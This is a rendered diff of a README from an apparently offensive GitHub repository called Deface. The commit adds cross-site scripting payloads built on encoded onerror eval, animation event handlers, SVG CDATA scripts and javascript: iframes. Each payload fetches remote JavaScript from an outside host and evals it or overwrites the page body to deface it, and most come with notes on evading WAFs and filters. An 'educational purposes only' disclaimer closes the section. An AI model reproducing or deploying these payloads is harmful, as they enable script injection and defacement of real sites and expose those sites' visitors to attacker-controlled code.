

Before and after one commit to Karthikdude/Deface, a Markdown page: README.md, the part around the change printed below. Shown: that part at 99% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -410,6 +472,66 @@ fetch('https://karthikdude.github.io/Deface/')
+---
+
+####  **HTML Entity Encoding**
+
+```html
+<script>&lt;img src=x onerror=eval(decodeURIComponent('%66%65%74%63%68%28%27https%3A%2F%2Fkarthikdude.github.io%2FDeface%2F%27%29%2E%74%68%65%6E%28%72%3D%3E%72%2E%74%65%78%74%28%29%29%2E%74%68%65%6E%28%65%76%61%6C%29'))&gt;</script>
+```
+
+**Details:**
+- Encodes the payload in HTML entities to evade WAF pattern matching.
+- Decodes and executes the defacement payload at runtime.
+
+---
+
+####  **Chained Event Handlers**
+
+```html
+<div style="animation-name:rotate" onanimationstart="fetch('https://karthikdude.github.io/Deface/').then(r=>r.text()).then(eval)"></div>
+<style>@keyframes rotate {}</style>
+```
+
+**Details:**
+- Uses the `animationstart` event to execute JavaScript when an animation begins.
+- Exploits non-standard event listeners.
+
+---
+
+####  **Inline SVG with Data URI**
+
+```html
+<svg xmlns="http://www.w3.org/2000/svg">
+  <script><![CDATA[
+    fetch('https://karthikdude.github.io/Deface/')
+      .then(r => r.text())
+      .then(deface => { document.body.innerHTML = deface; });
+  ]]></script>
+</svg>
+```
+
+**Details:**
+- Encodes the SVG payload inline, using `CDATA` to encapsulate JavaScript.
+- Bypasses filters targeting standard `<script>` elements.
+
+---
+
+####  **DOM-Based XSS with Trusted Context**
+
+```html
+<script>
+(function() {
+    const payload = document.createElement('iframe');
+    payload.src = 'javascript:fetch("https://karthikdude.github.io/Deface/").then(r=>r.text()).then(eval)';
+    document.body.appendChild(payload);
+})();
+</script>
+```
+
+**Details:**
+- Dynamically creates an iframe element with a `javascript:` URL scheme.
+- Uses a trusted context (the DOM) to inject the malicious payload.
+
+
 ## Disclaimer
 
 These payloads are for educational purposes only. Always ensure you have proper authorization and are acting ethically when testing or using such payloads. Unauthorized use of these payloads can be illegal and unethical.
 ```
-
-This `README.md` file includes all the provided payloads along with the newly generated ones, each with detailed explanations.
````
Also changed, not shown: other parts of README.md (+78 -16 lines).
